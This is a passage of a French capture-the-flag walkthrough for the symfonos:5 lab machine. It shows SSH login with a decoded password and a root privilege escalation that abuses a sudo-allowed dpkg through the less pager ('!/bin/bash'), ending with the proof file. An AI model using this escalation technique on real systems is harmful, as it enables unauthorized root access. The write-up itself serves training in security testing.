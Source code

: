 Le mot de passe de `zeus` qui se décode en `cetkKf4wCuHC9FET` permet de se connecter via SSH.

## Et là tout va très vite

```bash
$ zeus@symfonos5:~$ sudo -l
Matching Defaults entries for zeus on symfonos5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zeus may run the following commands on symfonos5:
    (root) NOPASSWD: /usr/bin/dpkg
```

Via cette permission sudo on peut exploiter un `GTFObin` (voir https://gtfobins.github.io/gtfobins/dpkg/#shell ). `dpkg -l` appelle le pager `less` et ce dernier permet d'appeller une commande avec le point d'exclamation :

```bash
zeus@symfonos5:~$ sudo /usr/bin/dpkg -l
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name                          Version                     Architecture Description
+++-=============================-===========================-============-===============================================================================
ii  adduser                       3.118                       all          add and remove users and groups
ii  ame                           1.0                         amd64        no description given
ii  apparmor                      2.13.2-10                   amd64        user-space parser utility for AppArmor
ii  apt                           1.8.2                       amd64        commandline package manager
--- snip ---
!/bin/bash
root@symfonos5:/home/zeus# id
uid=0(root) gid=0(root) groups=0(root)
root@symfonos5:/home/zeus# cd /root
root@symfonos5:~# ls
proof.txt
root@symfonos5:~# cat proof.txt 
 
                    Congrats on rooting symfonos:5!
  
                                   ZEUS
              *      .            dZZZZZ,       .          *
                                 dZZZZ  ZZ,
     *         .         ,AZZZZZZZZZZZ  `ZZ,_          *
                    ,ZZZZZZV'      ZZZZ   `Z,`\
                  ,ZZZ    ZZ   .    ZZZZ   `V
        *      ZZZZV'     ZZ         ZZZZ    \_              .
.              V   l   .   ZZ        ZZZZZZ          .
               l    \       ZZ,     ZZZ  ZZZZZZ,
   .          /            ZZ l    ZZZ    ZZZ `Z,
                          ZZ  l   ZZZ     Z Z, `Z,            *
                .        ZZ      ZZZ      Z  Z, `l
                         Z        ZZ      V  `Z   \
                         V        ZZC     l   V
           Z             l        V ZR        l      .
            \             \       l  ZA
                            \         C          C
                                  \   K   /    /             K
                          A    \   \  |  /  /              /
                           \        \\|/ /  /
   __________________________________\|/_________________________
```